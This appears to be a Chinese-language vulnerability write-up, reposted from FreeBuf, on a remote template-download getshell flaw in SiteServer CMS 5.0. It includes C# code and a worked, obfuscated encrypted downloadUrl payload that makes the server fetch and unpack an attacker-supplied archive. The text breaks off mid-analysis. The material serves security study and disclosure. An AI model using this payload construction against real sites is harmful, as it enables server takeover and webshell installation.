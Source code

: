 # SiteServerCMS-Getshell-
SiteServerCMS 5.0远程模板下载Getshell漏洞

Author:1u0hun

From:https://www.freebuf.com/articles/web/195105.html

0x00 漏洞概述<br>
通过了解，得知被攻击的网站使用的是siteserver cms，为开源免费cms框架，官网https://www.siteserver.cn/，捕获到的“0 day”是通过远程模板下载getshell，漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀
<br>
0x01 漏洞分析<br>
可以看到利用的是ajaxOtherService.cs中的SiteTemplateDownload功能模块，使用notepad++搜索到该功能模块如下。发现在ajaxOtherService.cs文件中确实存在函数调用接口SiteTemplateDownload(stringdownloadUrl, string directoryName, string userKeyPrefix)image.png
<br>
其中downloadUrl就是远程文件的URL地址，directoryName是下载到本地之后命名的模板目录，userKeyPrefix是加密的密钥，继续审核此文件，整理出整个函数调用流程如下，首先在AjaxOtherService.cs文件中使用Page_Load函数负责加载整个页面，然后通过request[‘type’]获取到不同的操作类型，如果获取到的type为TypeSiteTemplateDownload ，就会执行其request参数值的相关功能，其中最重要的一步操作就是此时先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。 image.png
<br>
在AjaxOtherService类中通过常量中已经定义了TypeSiteTemplateDownload = “SiteTemplateDownload”;image.png
<br>
因此当type等于SiteTemplateDownload时就会调用SiteTemplateDownload函数，逻辑非常的清楚，接下来分析downloadurl到底是怎么解密的，这也是本次审计的重点，毕竟其他逻辑非常清楚了，通过调用TranslateUtils.DecryptStringBySecretKey函数进行解密，通常开发习惯就是类名与文件名基本保持一致，因此很容易找到该文件image.png
<br>
通过分析源代码可知，这里将DecryptStringBySecretKey函数进行重载，在调用DecryptStringBySecretKey(string inputString)时候，实际上调用的是下面带secretKey的同名函数DecryptStringBySecretKey(stringinputString, string secretKey)，分析该函数其中secretKey是取自WebConfigUtils.SecretKey的值，通过审计WebConfigUtils.cs文件可知，该值是从配置文档web.config中取得对应字段值。SecretKey的值可以在web.config文件中找到。
<br>
image.png
<br>
解密函数DecryptStringBySecretKey(string inputString, string secretKey)中secretKey的参数值同样为WebConfigUtils.SecretKey的值,继续分析该函数，可以看到先进行了混淆字符，将字符“+=&?’/”替换成DES加密后的密文。image.png
<br>
这里使用python脚本去除混淆，恢复原DES密文。image.png
<br>
程序去除混淆之后调用DES模块并实例化encryptor对象调用DesDecrypt解密函数，在实例化对象时将inputString和secreKey传入。使用菜鸟教程http://www.runoob.com/调试运行下核心的加解密代码传入参数_encryptKey和_inputString加密代码调试如下_inputString传入任意黑客构造的地址，_encryptKey传入密钥。
<br>
<code>
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://127.0.0.1:99/txt2.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
f1.png
</code>
<br>
执行之后获取其加密downloadurl如下：ZjYIub/YxA3QempkVBK4CoiVo3M607H/TBf7F0aPcUE=， 使用python代码混淆该url，得到最后利用的downloadurlf2.png
<br>
混淆之后的downloadurl为：ZjYIub0slash0YxA3QempkVBK4CoiVo3M607H0slash0TBf7F0aPcUE0equals00secret0，解密的步骤与加密相反，首先将混淆后的下载地址去除混淆。去混淆py代码去混淆后密文如下：
<br>
ZjYIub/YxA2nYLIZNDeUmdd3GBhwbuBXI4s2bpH2CVmtg2H/QGZ4+ZW0iiVbi/MDytVnpZKliDw=，
<br>
解密函数调试如下，传入_inputString和密钥 
f3.png
<br>


